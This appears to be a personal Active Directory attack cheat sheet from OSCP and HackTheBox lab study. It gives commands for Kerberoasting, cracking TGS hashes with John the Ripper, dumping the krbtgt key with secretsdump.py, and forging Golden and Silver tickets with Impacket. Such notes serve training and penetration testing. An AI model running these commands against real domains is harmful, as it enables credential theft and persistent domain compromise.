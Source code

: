 ```

# Get time of the target:
ldapsearch -LLL -x -H ldap://10.10.10.100 -b '' -s base '(objectclass=*)'
See this => currentTime: 20180921143415.0Z (21/09/2018 at 14h34m15s)

dpkg-reconfigure tzdata (define None of the above, then GMT)
date --set="Fri 21 Sep 2018 14:35:00"

# Verify using several times “date”

# Once you get a TGS you can crack it that way using either hashcat or john the ripper from bleeding repo:
# You have to be in that folder /home/user/Desktop/Certifs/OSCP/Tools/PasswordCracking/JohnTheRipper/run
./john --wordlist=/home/user/Desktop/Certifs/OSCP/Tools/Wordlist/Bruteforce/rockyou.txt --fork=4 --format=krb5tgs /home/user/Desktop/HackTheBox/VM/Active/kerberos_hashes.txt

# Now you can perform such attacks without having access to LDAP
# The mentionned version of GetUserSPNs also patches some common errors
https://swarm.ptsecurity.com/kerberoasting-without-spns/

# If you managed to extract user list before, you can use it
GetUserSPNs.py DOMAIN.COM/Administrator:Pass -usersfile user.txt

# Over Pass the Hash (how can you do Kerberos auth without a password ?)
# - AS requests to get a TGT, it encrypts the nonce with the NT hash of the password (hash = encryption key)
# - So you can request a TGT with only the NT hash

# Forging Kerberos Tickets:
# - Using Mimikatz or Impacket we can forge TGTs or TGSs
# - Golden Ticket
#    - Forging a TGT (and the included PAC)
#    - Requires tje krbtgt key, the “master” encryption key from the KDC
#    - Can be used to request any TGS from the Domain Controller
# - Silver Ticket
#    - Forging a TGS (and included PAC)
#    - Requires the machine account password (key) from the KDC
#    - Can be used to directly access any service (without touching DC)

ticket.py --aesKey <xxxxxxxx> --domain-sid <S-1-xxxxxxx> --domain <domain> --duration <days> --groups <RIDs> <username>

secretsdump.py --just-dc-user krbtgt DOMAIN/user@IPDC

# Silver ticket is useful for persistence to a single host/service combo
# - Stealthier than Golden Tickets - you never need to actually contact the DC
# - It needs the machine accounts Kerberos key, machine accounts usually end in $
# - You must specify the service you need.

# Called “over-pass-the-hash”, natively with ktuitl and with Impacket.
```
